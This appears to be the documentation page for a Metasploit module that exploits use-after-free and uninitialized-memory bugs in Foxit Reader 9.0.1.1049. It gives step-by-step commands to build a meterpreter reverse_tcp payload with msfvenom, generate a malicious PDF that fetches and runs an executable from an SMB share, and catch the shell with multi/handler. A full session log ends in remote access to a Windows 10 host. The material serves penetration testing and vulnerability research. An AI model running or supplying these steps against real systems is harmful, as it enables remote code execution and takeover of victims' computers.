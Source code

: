 ## Description

Foxit Reader v9.0.1.1049 and earlier are affected by use-after-free and uninitialzed memory vulnerabilities that can be used to gain code execution. This module uses Uint32Array uninitialized memory and text annotation use-after-free vulnerabilities to call WinExec with a share file path to download and execute the specified exe. The module has been tested against Foxit Reader v9.0.1.1049 running on Windows 7 x64 and Windows 10 Pro x64 Build 17134. The module also works against Windows 10 Enterprise with insecure logons enabled.

## Vulnerable Application

[Foxit Reader v9.0.1.1049](https://www.exploit-db.com/apps/1040d634123948886f664afc95ec0a5e-FoxitReader901_enu_Setup_Prom.exe) and earlier

## Verification Steps

1. `./msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> --arch x86 -f exe /share/path/tmp.exe`
2. `chmod 777 /share/path/tmp.exe`
3. `./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share <share> ; set lhost <lhost> ; run`
4. `use multi/handler`
5. `set payload windows/meterpreter/reverse_tcp`
6. `set lhost <lhost>`
9. `run -j`
10. Copy pdf over to target. Start Foxit Reader then open pdf from Foxit's Menu.

Note: The target machine running Foxit Reader will need network access to the system hosting the exe.

## Scenarios

### Foxit Reader v9.0.1.1049 running on Windows 10 Pro x64 Build 17134

```
msfdev@simulator:~/git/metasploit-framework
$ ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.222.197 LPORT=4444 --arch x86 -f exe -o /opt/malicious/tmp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /opt/malicious/tmp.exe
msfdev@simulator:~/git/metasploit-framework
$ chmod 777 /opt/malicious/tmp.exe 
msfdev@simulator:~/git/metasploit-framework
$ ./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share tmp ; set lhost 172.22.222.197 ; run '
exename => tmp.exe
share => tmp
lhost => 172.22.222.197
[*] share_path: \\172.22.222.197\tmp\tmp.exe
[+] test.pdf stored at /home/msfdev/.msf4/local/test.pdf
msf5 exploit(windows/fileformat/foxit_reader_uaf) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 172.22.222.197
lhost => 172.22.222.197
msf5 exploit(multi/handler) > set exitonsession false
exitonsession => false
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.22.222.197:4444 
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.197:4444 -> 172.22.222.200:49673) at 2018-08-21 07:50:34 -0500

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP\msfdev
```
